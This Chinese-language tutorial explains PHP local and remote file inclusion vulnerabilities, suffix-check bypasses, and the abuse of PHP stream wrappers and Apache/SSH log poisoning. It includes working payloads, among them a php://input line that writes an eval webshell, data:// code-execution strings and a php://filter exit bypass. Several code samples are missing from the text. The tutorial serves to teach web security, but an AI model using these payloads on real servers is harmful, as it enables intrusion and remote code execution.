

前言
在开发过程中可能需要使用一些相同的模板或页面，为了避免一直重复写入相同代码，我们将重复利用的代码写入到一个文件中，利用文件包含可以将文件的内容直接引用到需要使用的文件，避免出现代码冗余，实现代码复用。带来方便的同时也带来了危险，如果没有进行有效的过滤可能会被攻击者加以利用，最终对造成系统的威胁
相关函数
文件包含相关的函数
1 | include()： 包含过程中出现错误时会抛出一个警告，程序继续正常运行 |
文件包含漏洞
原理
没有进行有效的过滤导致用户可以任意控制文件包含函数的参数，因为文件包含函数并不管文件的格式，图片也好，文本也好，其内容都会被函数当成PHP代码解析，所以文件包含运用不当会导致恶意代码执行或信息泄露，给服务器带来极大的威胁。
文件包含漏洞分为两种：本地文件包含和远程文件包含
本地文件包含(LFI)
本地文件包含LFI（Local File Inclusion），顾名思义可以用来包含本地的文件进行一些危险的操作
- 解析图片马
- 读取敏感文件
- 包含被污染的日志文件
- 包含被污染的session文件
- 伪协议利用
举个例子，下面代码因为没有合适的过滤，并且用户可控导致了文件包含漏洞的发生
1 |
|
测试结果：
远程文件包含(RFI)
远程文件包含RFI (Remote File Inclusion)，既被包含的文件在远程的服务器，且远程文件包含危害性比本地包含危害还大
局限性： 需要同时开启php.ini中配置 allow_url_fopen 和 allow_url_include
注：PHP5.2开始 allow_url_include 默认为Off
依旧是以上面的代码为例，进行远程文件包含
1 |
|
在远程服务器上有一个文件1.txt，其内容为<?php phpinfo()?> ，可以看到当前页面加载了远程服务器的文件内容，并当成php代码解析
本地文件包含绕过
开发人员限制了包含文件的后缀名，只能使用后缀名是.php的文件进行包含
1 |
|
当限制了后缀名的时候，可以采用%00截断，但是有局限性
- PHP版本小于5.3.4
- magic_quotes_gpc=off
- 未使用addslashes函数
测试结果：
远程文件包含绕过
相同的测试代码，限制了后缀名
1 |
|
远程文件包含可以采用问号绕过
也可以采用#号绕过
PHP伪协议利用
PHP带有很多内置URL风格的封装协议，而文件包含漏洞通常可以利用这些协议来达到一些特定的目的
file://协议
- 文件读取
用于读取本地文件，前提是需要知道文件的所在的路径，该协议不受allow_url_fopen与allow_url_include的影响
测试代码：测试结果：1
2
3
include($_GET['file']);
php://filer协议
文件读取
常用于读取文件源代码并以base64编码之后的形式输出，之后只需要用base64解码就可以获取源码，且不受allow_url_fopen与allow_url_include的影响
格式?file=php://filter/read=convert.base64-encode/resource=读取的文件名
测试代码：1
2
3
include($_GET['file']);测试结果：
构造webshell
测试代码：1
2
3
4
5
6
7
8
//死亡exit
$c="<?php exit;?>";
@$c.=$_POST['c'];
@$filename=$_POST['file'];
@file_put_contents($filename, $c);
highlight_file('tmp.php');因为前面已经有exit，无论传入什么参数都无法执行后面的内容
现在利用php://filter协议的写入来绕过死亡exit,构造webshell，其中PD9waHAgcGhwaW5mbygpOyA/Pg==是<?php phpinfo(); ?>的base64编码。因为base64会忽略不认识的字符，既"<?php exit;?>"base64只识别出phpexit。同时base64是以4个byte为一组来解码的，所以前面在前面加了一个a，组成”phpexita”来解码从而绕过exit
php://input协议
可以访问请求的原始数据的只读流，在POST请求中访问POST的data部分，在enctype=”multipart/form-data” 的时候php://input 是无效的
该协议需要开启allow_url_include，当遇到file_get_contents()可以采用php://input来绕过
- 命令执行
测试代码：当开启1
2
3
include($_GET['file']);allow_url_include时，可以利用php://input进行命令执行，POST的传递的参数将作为PHP代码进行解析
测试结果：
- 构造webshell
利用可以进行命令执行的条件，在权限的情况下可以写入webshell
payload:<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_REQUEST[cmd])?>');?>
测试代码：测试结果：1
2
3
include($_GET['file']);
data://协议
数据流封装器，需要PHP版本大于等于5.2，该协议需要开启allow_url_include和allow_url_fopen，同样可以遇到file_get_contents()可以利用data://协议来绕过
命令执行
测试代码：1
2
3
include($_GET['file']);该协议同样会造成命令执行，payload1：
?file=data:text/plain,<?php phpinfo()?>
payload2：?file=data://text/plain;base64,执行代码base64加密后
zip://协议
zip://，bzip2://，zlib://都是压缩流，可以访问压缩文件中的子文件，不需要指定后缀名，可以修改任意的后缀名
且不受 allow_url_fopen 与 allow_url_include 的影响,
测试代码：
1 |
|
- 访问子文件
将phpinfo.txt压缩成phpinfo.zip，放到www目录下，利用zip://伪协议来访问phpinfo.txt
payload:zip://[压缩文件绝对路径]%23[压缩文件的子文件名](%23为#号)
zlib://协议 compress.zlib://路径
phar://协议
phar://协议和zip://协议类似，可以访问zip格式的压缩包内容
测试代码：
1 |
|
- 访问子文件
测试结果：
包含日志
包含Apache日志
当我们知道Apache的日志路径时，可以考虑包含Apache的日志文件(访问和错误日志均可)，为了避免URL编码问题，可以用BurpSuit在页面的user-agent中插入payload
注意：httpd/要x的权限
成功执行

包含SSH日志
当知道SSH的日志文件路径时，可以采用包含SSH日志，Centos7需要注意SELinux和防火墙
payload:ssh -p 22 "<?php phpinfo(); ?>"@192.168.133.131